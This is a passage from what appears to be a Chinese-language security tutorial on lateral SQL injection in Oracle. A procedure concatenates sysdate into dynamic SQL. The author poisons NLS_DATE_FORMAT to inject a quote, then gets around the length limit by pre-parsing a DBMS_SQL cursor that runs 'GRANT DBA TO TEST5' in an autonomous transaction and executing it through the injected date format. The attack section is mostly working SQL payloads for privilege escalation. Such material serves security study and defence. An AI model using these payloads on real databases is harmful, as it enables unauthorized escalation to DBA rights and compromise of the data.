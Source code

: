 再来看这样一个存储进程，它不接收任何参数，拼接入SQL语句中的参数从`sysdate`中获取：

``` sql
create or replace procedure date_proc is
stmt varchar2(200);
v_date date:=sysdate;
begin
stmt:='select object_name from all_objects where created = ''' || v_date || '''';
dbms_output.put_line(stmt);
execute immediate stmt;
end;
/ 
```

我们故技重施，去污染date类型：

![1609838074088.png](https://i.loli.net/2021/03/06/zT9I6dXOwCkP5KZ.png)

可以看到成功添加一个单引号进去，此时我们再去执行上面的Procedure，会得到一个单引号未正常闭合的报错：

![1609838164271.png](https://i.loli.net/2021/03/06/DOWXMr3BfJNuhtb.png)

那么我们是否能够将语句成功注入进去呢？答案是暂时还不行，因为date类型限制了长度，如下图：

![1609838407057.png](https://i.loli.net/2021/03/06/ZDOv4pusji5rWLB.png)


但是oracle有个游标（可以理解为给你的语句一个ID，然后执行的时候直接通过ID执行即可）正好可以被我们所利用

关于游标可参考：https://www.cnblogs.com/huyong/archive/2011/05/04/2036377.html

``` sql
DECLARE
N NUMBER;
BEGIN
N:=DBMS_SQL.OPEN_CURSOR();
DBMS_SQL.PARSE(N,'DECLARE PRAGMA AUTONOMOUS_TRANSACTION; BEGIN
EXECUTE IMMEDIATE ''GRANT DBA TO TEST5''; END;',0);
DBMS_OUTPUT.PUT_LINE('Cursor is: '|| N);
END;
/ 
```

注意开启输出，不然无法打印游标号

![1609838951048.png](https://i.loli.net/2021/03/06/OYsZtvPkDdfTJ1W.png)

之后就是污染date类型，进而实现SQL注入

``` sql
ALTER SESSION SET NLS_DATE_FORMAT = '"'' AND DBMS_SQL.EXECUTE(1)=1--"';

-- 此时再执行Procedure
exec SYS.DATE_PROC();
```

![1609839114665.png](https://i.loli.net/2021/03/06/vm8DFnlMEJ9rIag.png)
